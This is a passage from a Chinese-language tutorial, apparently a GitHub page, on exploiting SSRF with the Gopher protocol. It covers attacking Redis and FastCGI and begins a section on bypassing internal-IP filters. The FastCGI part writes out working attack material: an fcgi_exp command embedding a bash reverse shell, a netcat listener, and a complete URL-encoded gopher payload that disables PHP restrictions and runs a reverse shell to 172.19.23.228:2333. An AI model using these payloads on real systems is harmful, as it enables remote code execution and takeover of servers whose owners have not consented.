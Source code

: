 用脚本直接生成payload后去打就行（[脚本在这](https://github.com/LS95/gopher-redis-auth)，RESP协议还是要了解的，不能光会用脚本）

```bash
curl -v "payload内容"
```

#### **GOPHER打FastCGI**

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。 

首先根据[faci_exp](https://github.com/piaca/fcgi_exp)生成exp，随后改成支持gopher协议的URL 

```bash
./fcgi_exp system 目标IP 9000 /var/www/html/1.php "bash -i >& /dev/tcp/攻击者IP/2333 0>&1"
nc -lvv 2333 > 1.txt
xdd 1.txt
```

 构造 Gopher 协议的 URL： 

```cmd
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
```

curl请求

```bash
curl -v "Gopher协议的URL"
```

本地监听2333端口，收到反弹shell 

```bash
nc -lvv 2333
```

[如何通俗地解释 CGI、FastCGI、php-fpm 之间的关系？](https://www.zhihu.com/question/30672017)

## 常见绕过方法

#### 一、检查IP是否为内网IP

很多开发者认为，只要检查一下请求url的host不为内网IP，即可防御SSRF。

通常使用正则过滤以下5个IP段：

```
192.168.0.0/16
10.0.0.0/8
172.16.0.0/12
127.0.0.0/8
0.0.0.0/8   #在Linux下，127.0.0.1与0.0.0.0都指向本地
```

